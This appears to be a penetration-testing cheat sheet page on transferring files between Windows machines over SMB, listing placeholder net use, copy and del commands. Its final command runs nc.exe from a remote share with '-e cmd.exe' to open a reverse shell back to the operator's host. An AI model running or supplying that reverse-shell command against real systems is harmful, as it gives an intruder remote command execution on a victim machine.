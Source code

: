 ```yaml
---
title: "File Transfer (Windows To Windows)"
date: 2024-10-5
tags: ["Smb", "File System Mounting", "Remote File Inclusion", "File Transfer", "Windows"]
---
```


{{< tab set1 tab1 >}}SMB{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Connect to SMB server without creds
net use \\<LOCAL_IP>\share
```

```console
# Connect to SMB server with server name
net use \\<SERVER_NAME>\share
```

```console
# Connect to SMB server with creds
net use \\<LOCAL_IP>\share /u:<USER> '<PASSWORD>'
```

```console
# Mount to a drive with creds
net use X: \\<LOCAL_IP>\share /u:<USER> '<PASSWORD>'
```

```console
# From local Windows to target Windows
copy <FILE> \\<LOCAL_IP>\share
```

```console
# From target Windows to local Windows
copy \\<LOCAL_IP>\share\<FILE> <FILE>
```

```console
# Delete file
del <FILE>
```

```console
# Remove SMB share
net use /d \\<LOCAL_IP>\share
```

```console
# Remove drive
net use /d X:
```

```console
# Older Windows (e.g. xp), use directly
\\<LOCAL_IP>\share\nc.exe -e cmd.exe <LOCAL_IP> <LOCAL_PORT>
```

{{< /tabcontent >}}

